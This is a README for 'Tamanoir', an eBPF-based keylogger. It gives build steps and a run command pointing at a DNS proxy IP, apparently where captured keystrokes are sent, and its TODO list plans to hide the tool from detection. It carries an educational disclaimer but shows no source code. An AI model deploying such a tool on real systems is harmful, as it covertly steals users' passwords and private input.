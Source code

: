 <div align="center">
  <h1> Tamanoir </h1>
  <img src="https://github.com/user-attachments/assets/47b8a0ef-6a52-4e2d-8188-e77bb9e98d79" style="width: 40%; height: 40%"</img>
  <h2> A KeyLogger using eBPF </h2>
</div>

## 💡Overview

<div align="center">
  <img src="https://github.com/user-attachments/assets/24f80020-9d60-4f2a-825b-ed56574dfb24" </img>
</div>

<br>

## 🪄 Usage

### Dns Proxy

Make sure you have:

- `docker` installed.
- [just](https://github.com/casey/just) installed.

```
just proxy
```

### Tamanoir

Before using `Tamanoir`, make sure you have:

- A Linux based OS.
- [bpf-linker](https://github.com/aya-rs/bpf-linker) installed.
- [just](https://github.com/casey/just) installed.
- [Rust](https://www.rust-lang.org/tools/install) installed with `nightly` toolchain.

1. Build `Tamanoir` from source

```
just build
```

2. Run

```
just run <Locally configured DNS server IP> <DNS Proxy IP> <keyboard layout>
```

for example:

```
just run 8.8.8.8 192.168.1.75 0
```

Currenly, there is only 2 supported keyboard layouts:

`0` : qwerty (us)

`1` : azerty (fr)

<br>

## 🛠️TODO

- [ ] Automatic discovery of the configured local dns server
- [ ] Automatic discovery of the keyboard layout
- [ ] Rewrite the DNS proxy in Rust
- [ ] Make the `Tamanoir` stealth (Hide ebpf maps, process pid ...)

<br>

## ⚠️ Disclaimer

`Tamanoir` is developed for educational purposes only

<br>

## ✍️ Authors

[Badr Badri](https://github.com/pythops)

[Adrien Gaultier](https://github.com/adgaultier)

<br>

## ⚖️ License

GPLv3
